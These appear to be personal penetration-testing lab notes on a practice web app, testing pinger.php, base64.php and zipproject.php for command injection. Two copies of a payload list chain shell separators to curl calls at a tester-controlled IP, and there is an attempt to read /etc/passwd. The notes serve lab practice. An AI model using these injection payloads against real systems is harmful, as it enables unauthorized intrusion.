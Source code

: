 - review website
![[Pasted image 20250106152753.png]]

#### /pinger.php

able to ping my own device
![[Pasted image 20250106152946.png]]
potential code injection here

![[Pasted image 20250106153024.png]]

#### base64.php
test
![[Pasted image 20250106153100.png]]
test
![[Pasted image 20250106153119.png]]
burp
![[Pasted image 20250106153214.png]]
#### base64.php

 going to use common protection
`$(curl http://192.168.49.61:80/test.txt)`
- encoded all the payloads and tried against the `data` parameter
```bash
||curl http://192.168.49.61:80/test.txt
;curl http://192.168.49.61:80/test.txt
|curl http://192.168.49.61:80/test.txt
&&curl http://192.168.49.61:80/test.txt
`curl http://192.168.49.61:80/test.txt`
$(curl http://192.168.49.61:80/test.txt)
```
- didnt work need to test the `submit`
![[Pasted image 20250106160415.png]]
#### zipproject.php

![[Pasted image 20250106153323.png]]
after
![[Pasted image 20250106153442.png]]
burp
![[Pasted image 20250106153421.png]]

- I am thinking `Code Execution` could be in any of these

##### Testing

tried testing by getting `cat /etc/passwd` for local code execution
![[Pasted image 20250106154836.png]]
going to try to `curl` in the `archineName` field
- didnt work

![[Pasted image 20250106155048.png]]
going to try `submit` field
- didnt work
![[Pasted image 20250106155153.png]]
 going to use common protection
`$(curl http://192.168.49.61:80/test.txt)`
```bash
||curl http://192.168.49.61:80/test.txt
;curl http://192.168.49.61:80/test.txt
|curl http://192.168.49.61:80/test.txt
&&curl http://192.168.49.61:80/test.txt
`curl http://192.168.49.61:80/test.txt`
$(curl http://192.168.49.61:80/test.txt)
```
#### login.php

![[Pasted image 20250106153558.png]]


